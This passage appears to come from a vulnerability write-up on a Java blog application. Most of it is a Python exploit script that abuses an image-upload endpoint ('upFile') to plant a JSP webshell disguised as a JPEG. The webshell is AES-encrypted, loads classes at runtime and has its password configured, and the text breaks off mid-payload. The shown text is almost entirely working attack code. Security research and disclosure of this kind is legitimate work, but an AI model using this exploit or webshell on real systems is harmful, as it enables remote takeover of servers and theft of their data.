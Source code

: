 ##### Step2:Build EXP according to the code audit results, and run it to get the URL address of WebShell: http://localhost:8081/upload/blog/20220901/1662015136678.jsp

![image-20220901145545937](.\image\20220901\image-20220901145545937.png)

###### EXP:

```python
import requests

# Configure the target URL.
Host = "localhost:8081"
Path = "upFile"
Url = "http://{Host}/{Path}".format(Host=Host, Path=Path)
# Configure Headers.
Headers = {"sec-ch-ua-mobile": "?0",
           "sec-ch-ua-platform": "\"Windows\"",
           "Upgrade-Insecure-Requests": "1",
           "Origin": "http://{Host}".format(Host=Host),
           "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryNOyNFd8trb922Qzd",
           "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) "
                         "Chrome/104.0.0.0 Safari/537.36",
           "Connection": "close"}
# Configure Data, where the WebShell key is KEY, the password is Pass, the payload is JavaDynamicPayload,
# and the encryptor is JAVA_AES_BASE64.
Data = "------WebKitFormBoundaryNOyNFd8trb922Qzd\r\nContent-Disposition: form-data; name=\"editormd-image-file\"; " \
       "filename=\"text.jsp\"\r\n" \
       "Content-Type: image/jpeg\r\n\r\n" \
       "<%! String xc=\"3c6e0b8a9c15224a\"; String pass=\"pass\"; String md5=md5(pass+xc); class X extends " \
       "ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, " \
       "cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance(" \
       "\"AES\");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),\"AES\"));return c.doFinal(s); }catch " \
       "(Exception e){return null; }} public static String md5(String s) {String ret = null;try {" \
```